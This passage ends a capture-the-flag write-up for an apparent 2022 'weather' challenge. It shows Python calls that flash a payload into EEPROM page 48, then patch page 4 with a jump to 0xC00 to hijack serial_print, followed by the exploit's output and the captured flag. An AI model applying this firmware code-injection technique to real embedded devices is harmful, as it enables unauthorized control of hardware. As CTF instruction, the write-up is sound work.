 Remember the payload should be put in its place before tampering with
`serial_print`

And finally:
```py
eeprom_flah_new_page(48, payload)
eeprom_write_mask(4, p4mask) # setup serial_print
print(p.recvline())
```
*Again, take a look at [exploit.py] for a full implementation*

Executing the exploit gives us:
```bash
$ python exploit.py
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
Delivering payload
w 101153 69 48 165 90 165 90 138 17 255 122 16 13 250 17 26 17 159 252 253 243 252 26 12 159 3 138 13 245 127 1 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255 255
w 101153 1 48
Page 48
75 ee 00 85 ef f2 05 ee
e5 ee 60 03 02 0c 03 e5
f3 60 fc 75 f2 0a 80 fe
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
Injecting jump at page 4 to 0xC00
w 101153 69 4 165 90 165 90 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 255 253 243 255 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
waiting for response...
b'CTF{DoesAnyoneEvenReadFlagsAnymore?}\n'
[*] Closed connection to weather.2022.ctfcompetition.com port 1337
```

Finally! The flag is `CTF{DoesAnyoneEvenReadFlagsAnymore?}`

[firmware.c]: res/firmware.c
[Device Datasheet Snippets.pdf]: res/Device%20Datasheet%20Snippets.pdf
[exploit.py]: res/exploit.py
[eeprom]: res/eeprom

[8051]: https://en.wikipedia.org/wiki/Intel_8051
